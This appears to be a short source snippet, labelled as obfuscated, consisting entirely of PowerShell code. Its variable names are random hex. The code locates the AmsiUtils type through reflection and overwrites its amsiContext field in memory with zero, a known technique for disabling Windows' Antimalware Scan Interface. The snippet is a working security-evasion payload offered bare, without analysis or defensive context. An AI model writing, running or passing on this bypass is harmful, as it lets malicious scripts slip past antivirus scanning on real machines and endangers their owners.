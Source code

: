 # obf

$b6f05ac9ab554f61bb4418d3e8b2d3a5=[Ref].Assembly.GetTypes();Foreach($d33449b15ab74eb8a77f88e6e13c2097 in $b6f05ac9ab554f61bb4418d3e8b2d3a5) {if ($d33449b15ab74eb8a77f88e6e13c2097.Name -like "*iUtils") {$9b123d98f1a54716b26d7bb51d722e11=$d33449b15ab74eb8a77f88e6e13c2097}};$c9ab14f0a1ea4e4eb2f9b1e4a6b3e53c=$9b123d98f1a54716b26d7bb51d722e11.GetFields('NonPublic,Static');Foreach($a2a34e24be8a495592c198abc89e6f11 in $c9ab14f0a1ea4e4eb2f9b1e4a6b3e53c) {if ($a2a34e24be8a495592c198abc89e6f11.Name -like '*Context') {$f2fbc47a934647399f3e9e4a50de7e20=$a2a34e24be8a495592c198abc89e6f11}};$a81e5bfc2a224453b7f8f8ef9b5194e1=$f2fbc47a934647399f3e9e4a50de7e20.GetValue($null);[IntPtr]$ec27b3af3b3a4ff4bdeefc471b4f815b=$a81e5bfc2a224453b7f8f8ef9b5194e1;[Int32[]]$3b2e13d07ac142ae9d504431ab32b9e5 = @(0);[System.Runtime.InteropServices.Marshal]::Copy($3b2e13d07ac142ae9d504431ab32b9e5, 0, $ec27b3af3b3a4ff4bdeefc471b4f815b, 1)
